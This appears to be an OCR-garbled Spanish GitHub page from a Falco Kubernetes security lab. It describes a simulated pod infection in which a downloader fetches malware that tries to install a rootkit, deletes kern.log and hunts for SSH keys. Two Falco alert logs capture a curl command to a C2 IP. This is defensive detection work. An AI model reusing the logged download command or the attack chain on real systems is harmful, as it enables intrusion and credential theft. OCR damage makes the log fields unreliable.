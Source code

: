 # CaseA: Infection


> Conexión con un sitio malicioso que expone un (downloader), este redirecciona a un software malicioso alojado en GitHub cuyo objetivo es realizar actividades maliciosas al interior del pod infectado. Tales como: 
Se puede evidenciar como falco detecta la trazabilidad de los compoertamientos del malware en tiempod e ejecución.


El complemento lo tengo en las diapositivas, es decir que se puede extraer de cada log.

Malware que se conecta a un servidor en GCP y descarga y ejecuta un downloader el cual redirecciona hacia un repositorio en github donde se descarga y ejecuta un programa malicioso el cual intenta copiar un rootkit (LKM) en el sistema sin exito por ser un nodo de kubernetes. POr ende elimina el log kern.log. 
Para Luego intentar obtener llaves de acceso como llaves ssh y otras keys.


<img src="../../assets/malware.webp" align="center" width="50%" height="50%"/>




### Comportamiento: Descargar archivo malicioso (Downloader)

"Un downloader es un tipo de malware diseñado para descargar y ejecutar archivos maliciosos adicionales. En este caso, el downloader desarrollado se conecta a un repositorio en GitHub para descargar un archivo malicioso, lo que permite a los atacantes ampliar las capacidades del ataque inicial una vez que el downloader ha sido ejecutado en el sistema víctima."

*Regla: Outbound Connection to C2 Servers*

    {"hostname":"falcox33-falco-obsec-xxtxw","output":"21:23:49.712489624: Warning Outbound connection to C2 server (command=curl -sL http://34.27.180215/sitio/       vuelta.txt pid=7599 connection=10.0.1.71:36438->34.27.180.215:80 user=<NA> user_loginuid=-1 container_id=db0e1dd76a0d image=dockerio/ diegoall1990/ubuntu-lab   Custom_Tags=IRT_Alert) k8s.ns=falco-custom-lab k8s.pod=ubuntu-lab-2 container=db0e1dd76a0d","priority":"Warning", "rule":"Outbound Connection to C2 Servers",     "source":"syscall","tags":["IRT_Alert","network"],"time":"2024-08-01T21:23:49.712489624Z",   "output_fields": {"container.id":"db0e1dd76a0d","container.image.    repository":"docker.io/diegoall1990/ubuntu-lab","evttime":1722547429712489624"fd.    name":"10.0.1.71:36438->34.27.180.215:80","k8s.ns.name":"falco-custom-lab",     "k8s.pod.name":"ubuntu-lab-2","proccmdline":"curl -sLhttp://34.27.180.    215/sitio/vuelta.txt","proc.pid":7599,"user.loginuid":-1,"user.name":"<NA>"}}

    {"hostname":"falcox33-falco-obsec-xxtxw","output":"21:23:51.194577832: Warning Outbound connection to C2 server (command=falco-workshop init--vector Apid=7724            connection=10.0.1.71:36446->34.27.180.215:80 user=<NA> user_loginuid=-1 container_id=db0e1dd76a0d image=docker.iodiegoall1990ubuntu-lab Custom_Tags=IRT_Alert)        k8s.ns=falco-custom-lab k8s.pod=ubuntu-lab-2 container=db0e1dd76a0d","priority":"Warning""rule":"OutboundConnection to C2 Servers","source":"syscall","tags":         ["IRT_Alert","network"],"time":"2024-08-01T21:23:51.194577832Z","output_fields":{"container.id":"db0e1dd76a0d","container.image.repository":"docker.io/          diegoall1990/ubuntu-lab","evttime":1722547431194577832,"fd.name":"10.01.71:36446->34.27.180.215:80","k8s.ns.name":"falco-custom-lab","k8s.pod.        name":"ubuntu-lab-2","proccmdline":"falco-workshop init --vector A""proc.pid":7724,"user.loginuid":-1,"user.name":"<NA>"}}
